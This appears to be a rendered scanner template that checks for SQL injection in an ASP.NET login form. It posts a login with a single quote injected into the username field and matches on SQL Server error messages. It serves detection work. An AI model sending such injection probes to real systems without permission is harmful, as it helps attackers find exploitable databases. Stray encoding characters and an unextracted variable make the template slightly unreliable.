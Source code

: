 ## Requests

### Step - 1

```
GET / HTTP/1.1
Host: {{Hostname}}

```

### Step - 2

```
POST / HTTP/1.1
Host: {{Hostname}}
Referer: {{BaseURL}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded

__EVENTTARGET=cmdOK&__EVENTARGUMENT=&__VIEWSTATE={{url_encode("Â{{VSÂ}}")}}&__VIEWSTATEGENERATOR={{url_encode("Â{{VSGÂ}}")}}&__EVENTVALIDATION={{url_encode("Â{{EVÂ}}")}}&txtID=uname%27&txtPW=passwd&hdnClientDPI=96

```

### Matchers

**Type - word**

- part - body
- condition - and
- words
  1. System.Data.SqlClient.SqlException
  2. Incorrect syntax near
  3. \_ACCOUNTLOCKED

### Extractors

**Type - xpath**

- name - VS
- internal - True
- attribute - value
- xpath
  1. /html/body/form/div/input[@id='__VIEWSTATE']

**Type - xpath**

- name - VSG
- internal - True
- attribute - value
- xpath
  1. /html/body/form/div/input[@id='__VIEWSTATEGENERATOR']
